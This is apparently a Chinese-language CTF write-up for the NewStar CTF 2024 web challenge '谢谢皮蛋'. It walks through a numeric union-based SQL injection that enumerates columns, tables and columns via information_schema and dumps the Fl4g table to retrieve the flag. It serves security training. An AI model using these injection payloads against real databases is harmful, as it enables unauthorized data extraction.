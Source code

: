 ```yaml
---
title: WriteUp
titleTemplate: ':title - NewStar CTF 2024'
---
```


# 谢谢皮蛋

数字型注入，联合注入  
判断列数和回显位，其实看页面上的格式也基本可以判断

```sql
1 order by 2#
-1 union select 1,2#
```

查看当前数据库

```sql
-1 union select 1,database()#
```

![这里理应是配图](/assets/images/wp/2024/week1/web/xiexiepidan_1.png)

查看当前数据库所有表名

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![这里理应是配图](/assets/images/wp/2024/week1/web/xiexiepidan_2.png)

查看Fl4g表所有列名（当然如果你想看看有些什么英雄也是完全ok，你可以在皮蛋的情报网里畅游）

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='Fl4g' and table_schema=database()#
```

![这里理应是配图](/assets/images/wp/2024/week1/web/xiexiepidan_3.png)

查看值得到flag

```sql
-1 union select group_concat(des),group_concat(value) from Fl4g#
```
